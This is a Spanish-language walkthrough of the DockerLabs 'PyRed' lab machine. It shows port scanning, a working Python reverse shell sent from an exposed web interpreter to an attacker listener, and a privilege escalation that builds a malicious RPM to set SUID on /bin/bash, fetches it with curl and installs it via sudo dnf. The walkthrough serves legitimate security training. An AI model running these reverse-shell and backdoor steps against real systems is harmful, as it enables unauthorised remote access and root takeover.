 # PyRed 
![pyred](https://github.com/TBrux/DOCKERLABS/assets/168732212/581d6970-5f9f-4693-915d-8e2cd06b14cb)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT     STATE SERVICE REASON
5000/tcp open  upnp    syn-ack ttl 64
```

Como tenemos abierto el puerto 5000, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p5000 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p5000`: Escaneo de los puertos 5000.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```
PORT     STATE SERVICE REASON         VERSION
5000/tcp open  upnp?   syn-ack ttl 64
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.2 Python/3.12.2
```
Vamos a ver que encontramos en el puerto 5000 y vemos que es una página con lo que parece un intérprete de **Python**.
![python](https://github.com/TBrux/DOCKERLABS/assets/168732212/62e5c69b-3c12-446f-b82e-420d76ab694a)

## Explotación.

Lo siguiente es ponernos a la escucha en un puerto en nuestro equipo y enviarnos una reverse shell desde el interprete de **Pyhton**.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
```
```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.17.0.1", 4443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```
Una vez lo lanzamos ya establemos la reverse shell con el usuario **primpi**.
```
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 33108
sh: cannot set terminal process group (1): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.2$ whoami
whoami
primpi
sh-5.2$ 
````
## Escalada de privilegios.
Comprobamos binarios y archivos que podemos lanzar como root u otro usuario con más privilegios.
```bash
sudo -l
```
```
sh-5.2$ sudo -l
sudo -l
Matching Defaults entries for primpi on c35c7f5e90f9:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User primpi may run the following commands on c35c7f5e90f9:
    (ALL) NOPASSWD: /usr/bin/dnf
```
Vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/) y vemos que podemos ver los pasos para crear un archivo malicioso, que después subiremos a la máquina y ejecutaremos con **/usr/bin/dnf**.
```bash
❯ TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0-1.noarch.rpm"}
```
Hemos creardo el archivo **x-1.0-1.noarch.rpm** que ahora lo subiremos a la máquina victima, creando un servidor **http** con python en el directorio donde tenemos nuestro archivo y con **curl** lo descargamos en la máquina victima en la carpeta


```bash
python3 -m http.server 8080
```
```bash
curl 172.17.0.1/x-1.0-1.noarch.rpm -o noarch.rpm
```
Una vez ya lo tenemos en la máquina víctima, lo instalamos con el binario **/usr/bin/dnf** y así cambiamos el SUID de bash y podemos ejecutarla comor **root**.
```bash
sudo -u root /usr/bin/dnf install -y noarch.rpm
```
```bash
bash -p
```
```
sh-5.2$ bash -p
whoami
root
```

